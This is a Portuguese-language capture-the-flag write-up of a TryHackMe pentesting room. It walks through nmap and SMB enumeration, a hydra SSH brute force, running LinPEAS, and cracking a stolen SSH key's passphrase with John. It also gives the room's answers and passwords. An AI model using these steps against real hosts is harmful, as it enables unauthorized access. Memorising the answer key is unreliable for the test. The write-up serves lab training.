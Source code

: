# Introdução

Esta é uma room que possui uma máquina que permite praticar hacking de aplicativos da web e escalonamento de privilégios.
# Execução

## 1 - Web App Testing and Privilege Escalation 

Neste conjunto de tarefas, serão abordados/necessários:
- Força bruta
- Quebra de hash
- Enumeração de serviço
- Enumeração do Linux

### 1. **Portscan**:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# export TARGET=10.10.229.84                                                  
                                                                                 
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# nmap -A -T5 -Pn -p- $TARGET -oA portscan -v
```
Portas abertas:
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7

O export é para não ter que ficar digitando o IP do host alvo, usar apenas a variável. Mais informações nos arquivos portscan gerados.

### 2. **Enumeração do diretórios e arquivos no servidor web**:

Utilizado o gobuster para enumerar diretórios e arquivos:

```shell
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 16 -x php,html,js,css,sh,txt,cgi,py -q -o gobuster.txt
```
Diretórios e arquivos encontrados: 
- http://10.10.229.84/index.html 
- http://10.10.229.84/development/
- http://10.10.229.84/development/dev.txt
- http://10.10.229.84/development/j.txt

A resposta da questão ***c*** é ***development***.

### 3. **Enumeração de informações do SMB**

Utilização do enum4linux:

```shell
enum4linux -a $TARGET | tee enum4linux.txt
```
Usuários encontrados:
```
User\kay (Local User)
User\jan (Local User)
```
A resposta da questão ***d*** é ***jan***.

A resposta da questão ***h*** é ***kay***.

### 4. **Brute force de senha**
Utilizada a aplicação hydra para brute force de senha para usuário jan.

```shell
hydra -t 16 -l jan -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz -vV $TARGET ssh 
```
A senha encontrada foi ***armando***. Resposta da questão ***e***.

### 5. **Elevação de privilégios**

Primeiro, acessamos o host alvo via SSH com a senha descoberta com o hydra:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# ssh jan@$TARGET
```
Confirmando se o usuário jan possui alguma permissão sudo:

```shell
jan@basic2:~$ sudo -l
[sudo] password for jan: 
Sorry, user jan may not run sudo on basic2.
```
Checando permissões no passwd e shadow:

```shell
jan@basic2:~$ ls -l /etc/passwd
-rw-r--r-- 1 root root 1639 Apr 23  2018 /etc/passwd
jan@basic2:~$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1085 Apr 23  2018 /etc/shadow
```
Sem muita opção até aqui.

Recorrendo a script de avaliação de pontos possíveis de elevação de privilégios. Por exemplo, o [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/20220710/linpeas.sh). Após realizar o download no host atacante, enviar para o host alvo, usando scp.

```shell
scp linpeas.sh jan@$TARGET:/tmp  
```
Agora é só executar o script:

```shell
jan@basic2:~$ chmod +x /tmp/linpeas.sh 
jan@basic2:~$ /tmp/linpeas.sh | tee /tmp/linpeas.log
```

O LinPEAS encontrou uma chave privada do usuário kay com permissão de leitura para outros usuários. Copia-se o texto da chave e adiciona-se em um arquivo no host atacante, para tentar conectar via ssh com o usuário kay.

```shell
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# ssh -i ~/id_rsa kay@$TARGET
kay@10.10.194.79's password: 
```
Está protegido por senha!!!

É possível utilizar o ssh2john para gerar um arquivo de texto com um conteúdo que o John the ripper consigar ler para descobrir a senha:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# ssh2john ~/id_rsa > hash_id_rsa.txt
```
Agora, só rodar o John the ripper usando a wordlist rockyou.txt:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/basicpentest]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (/root/id_rsa)     
1g 0:00:00:00 DONE (2022-07-15 22:41) 11.11g/s 919288p/s 919288c/s 919288C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Senha da chave id_rsa encontrada: ***beeswax***

Agora é só conectar via ssh com usuário kay, quando for solicitada a passphrase, basta digitar ***beeswax***. No diretório home do usuário kay, existe um arquivo pass.bak, que corresponde a resposta da questão ***j***.

```shell
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Para resolver a room, não foi necessário elevar para root.

## Questões:

- a. ***Deploy the machine and connect to our network*** *Não há necessidade de resposta*

- b. ***Find the services exposed by the machine*** *Não há necessidade de resposta* 

Sobre a questãob ***b***, é necessário realizar um portscan com o nmap. Mais informações na seção de recon acima.

- c. ***What is the name of the hidden directory on the web server(enter name without /)?*** *development*

- d. ***What is the username?*** *jan*

- e. ***What is the password?*** *armando*

- f. ***What service do you use to access the server(answer in abbreviation in all caps)?*** *SSH*

- g. ***Enumerate the machine to find any vectors for privilege escalation***  *Não há necessidade de resposta*

- h. ***What is the name of the other user you found(all lower case)?*** *kay*

- i. ***If you have found another user, what can you do with this information?*** *Não há necessidade de resposta*

- j. ***What is the final password you obtain?***


